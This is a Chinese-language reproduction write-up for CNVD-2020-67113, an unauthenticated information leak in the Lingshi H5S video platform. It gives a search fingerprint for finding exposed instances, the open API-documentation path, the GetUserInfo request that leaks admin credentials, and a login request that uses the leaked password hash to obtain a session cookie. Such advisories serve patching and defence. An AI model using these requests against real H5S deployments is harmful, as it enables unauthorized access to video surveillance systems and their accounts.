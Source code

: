 # 

# 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞 CNVD-2020-67113

## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。 零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

```
零视科技 H5S视频平台
```

## 网络测绘

```
title="H5S视频平台|WEB"
```

## 漏洞复现

登录页面

![image-20220525151716667](./images/202205251517010.png)

API文档可以未授权访问

```
/doc/api.html
```

![image-20220525151757329](./images/202205251517406.png)

存在用户账号密码泄漏的接口

```
/api/v1/GetUserInfo?user=admin&session=
```

![image-20220525151838220](./images/202205251518256.png)

其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```
/api/v1/Login?user=admin&password=827ccb0eea8a706c4c34a16891f84e7b
```

![image-20220525151916076](./images/202205251519118.png)

请求成功后访问主页面

![image-20220525152043207](./images/202205251520302.png)
